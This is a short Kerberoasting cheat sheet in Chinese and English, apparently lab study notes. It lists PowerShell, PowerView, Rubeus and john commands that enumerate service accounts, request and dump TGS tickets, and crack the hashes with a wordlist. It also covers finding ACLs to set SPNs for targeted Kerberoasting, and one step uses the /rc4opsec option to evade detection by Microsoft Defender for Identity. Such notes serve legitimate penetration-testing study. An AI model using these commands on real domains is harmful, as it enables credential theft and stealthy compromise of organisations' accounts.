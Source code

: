 # Kerberoast

ActiveDirectory module
```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
PowerView
```
Get-DomainUser –SPN
```

## 使用 Rubeus 列出 Kerberoast stats
```
Rubeus.exe kerberoast /stats
```

## 使用 Rubeus 请求 TGS
```
Rubeus.exe kerberoast /user:serviceaccount /simple
```

为了避免基于Kerberos ET类型的加密降级的检测（由MDI等使用 - 0x17 代表RC4-HMAC），寻找只支持RC4_HMAC的Kerberoastable账户
```
Rubeus.exe kerberoast /stats /rc4opsec

Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

## 列出所有可以Kerberoast的账号
```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

## 破解Kerberoast用户的ticket
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

# Targeted Kerberoasting - Set SPN

前提：
> If we have sufficient rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).(如果我们有足够的权限（GenericAll/GenericWrite），目标用户的SPN可以被设置为任何东西（在域中唯一的）)

> We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".(然后我们可以请求一个没有特殊权限的TGS。然后TGS可以被 "Kerberoasted"。)

## 枚举指定账号的特别的ACL
```
Find-InterestingDomainAcl -ResolveGUIDs |?{$_.IdentityReferenceName -match "StudentUsers"}
```
